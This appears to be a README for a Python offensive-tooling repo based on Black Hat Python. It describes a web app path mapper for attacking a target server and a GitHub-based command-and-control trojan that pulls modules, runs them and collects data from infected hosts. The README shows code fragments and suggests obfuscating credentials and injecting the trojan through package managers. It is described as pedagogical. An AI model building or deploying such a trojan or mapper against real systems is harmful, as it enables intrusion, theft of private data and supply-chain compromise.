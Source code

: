 #Hackery in Python 

##Web app mapper

Suppose we're trying to compromise a server for which we know the target url then we can hunt for all the files that are reachable on the remote target in the hopes of finding some way to gain root access by inspecting the local file structure of the project.

###Usage

target is the the url of the host you are trying to hack into
directory is the source code of the app you downloaded 
[filters] filters out unwanted file types
```
python web_app_mapper target directory num_threads [filters]
```

###How it works

You need to perform an ```os.walk(directory)``` and push to a queue every path you find.

Then for each element of the queue, send a simple request and inspect the path of the response. The path of the response might reveal sensitive information that you can use to conduct your attack.

###Pwned

![Make sure this doesn't work on your server](./pwn.png)


##Github Trojan

This repo follows the exposition of Black Hat Python Chapter 7: "Github Command
and Control" by Justin Seitz, it is intended for pedagogical purposes only.

##Usage
Add a username, password, repo and branch and then run

```
python git_trojan.py
```

###How it works

Override functionality of meta_path to GitImporter so that if module is not found locally then our module is used instead.

```
sys.meta_path = [GitImporter()]
```

Next, queue in tasks from a generated config file 
```
while True:

    if task_queue.empty():

        config = get_trojan_config()

        for task in config:
            t = threading.Thread(target=module_runner,args=(task['module'],))
            t.start()
            time.sleep(random.randint(1,10))

    time.sleep(random.randint(1000,10000))
```

```module_runner ``` runs the module and then stores the result as a github repo by just authenticating with the above credentials.

Finally, pull the changes from your machine to start receiving private information from the infected hosts.
```
git pull origin master
```

###Interesting things to do next

* Obfuscate authentication
* Think of how to inject this when people use package managers
